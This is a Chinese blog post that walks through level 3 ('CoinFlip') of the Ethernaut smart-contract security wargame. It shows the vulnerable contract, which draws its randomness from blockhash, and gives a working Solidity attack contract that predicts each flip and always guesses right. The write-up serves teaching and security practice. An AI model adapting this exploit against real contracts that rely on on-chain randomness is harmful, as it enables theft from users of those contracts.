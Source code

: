 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-2'
date: 2022-12-7 16:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第三关coinflip 思路与POC

##### 目标: 猜对10次flip函数得出的结果

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //核心逻辑:利用区块高度-1除以FACTOR得出随机数
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

#### 乍一看似乎没有问题,实际上纯粹使用链上数据生成的随机数就必然能够被恶意合约利用.

##### poc思路:game_die: :恶意合约只需要根据coinfilp合约生成随机数的核心逻辑复刻一份即可,只要两份合约部署在同一链上就能利用

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

//复制一份CoinFlip合约代码
import "./CoinFlip.sol";

contract hackFilp  {

   uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
   //根据合约地址取得实例
   CoinFlip public filp =  CoinFlip(0x515f81b42E60D8ad5b15FbD43330A3b5bD3D8574);
 

  function hackFlip(bool _guess) public {
    
    // 需要hack合约上的随机数生成逻辑
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;

    bool side = coinFlip == 1 ? true : false;
     
     //扭转错误的猜测
    if (side == _guess) {
        filp.flip(_guess);
    } else {
   
        filp.flip(!_guess);
    }
}

}
```

![info](./assets/1670489224267.png)